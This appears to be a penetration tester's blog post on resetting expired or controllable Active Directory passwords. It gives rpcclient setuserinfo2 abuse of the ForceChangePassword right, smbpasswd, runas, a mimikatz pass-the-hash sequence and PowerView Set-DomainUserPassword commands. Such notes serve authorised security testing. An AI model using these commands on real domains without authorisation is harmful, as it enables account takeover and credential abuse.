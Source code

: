 [back](/)

### Your password has expired

During penetration testing Active Directory you often encounter the need to change the password for domain users. How to do this if you do not have direct access to control? For example by winrm, rdp or wmi.

Here are some useful examples that I've collected as a result of my work:

Example 1: you have a domain user whose password has expired (or a temporary password has been set), in which case you will not be able to connect under the current user due to NLA (Network Level Authentication). By using the NetApi32 function you can easily change the password without a direct connection, in this article you will find the script: [changing-your-expired-active-directory-password](https://hinchley.net/articles/changing-your-expired-active-directory-password-via-powershell/)

Example 2: you have a domain user with the "ForceChangePassword" attribute, in which case you do not need to know the current user's password and you can use the rpcclient utility as follows:

```
setuserinfo2 yourusername 23 'yourpassword'
```

![Image](/img/domain-user-password/1.png)
![Image](/img/domain-user-password/2.png)

![Image](/img/domain-user-password/3.png)

Example 3: you have a domain user with an expired password and access to the smb service, then you can change the password using smbpasswd like this:

```
smbpasswd -r HOST -U yourusername
```

Also, if you have an active account in the domain, you can run commands from the cmd/powershell console:

```
runas /netonly /U:yourusername@yourdomain powershell
```

this way you will open a session as a domain user

![Image](/img/domain-user-password/5.png)

or using mimikatz having previously generated the NTLM hash:

```
echo -n "password" | iconv -t UTF-16LE | openssl md4
privilege :: debug
token :: elevate
pth /user:yourusername /domain:yourdomain / ntlm:NTLM /run:"powershell.exe"
```

![Image](/img/domain-user-password/4.png)

Then, in an open session use PowerView.ps1 (if you need to change the password using the previous one)

```
$ SecPassword = ConvertTo-SecureString 'yourpassword' -AsPlainText -Force
$ Cred = New-Object System.Management.Automation.PSCredential ('yourdomain\yourusername', $SecPassword)
$ UserPassword = ConvertTo-SecureString 'yourpassword' -AsPlainText -Force
Set-DomainUserPassword -Identity yourusername -AccountPassword $UserPassword -Credential $Cred
```

or (if you need to change the password without knowing the previous one, if the ForceChangePassword attribute is present)

```
$pw = Convertto-securestring 'yourpassword' -asplaintext -force
Set-DomainUserPassword -Domain yourdomain -Identity 'CN=yourusername,CN=Users,DC=yourdomain,DC=yourdomain' -accountpassword $pw
```

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)



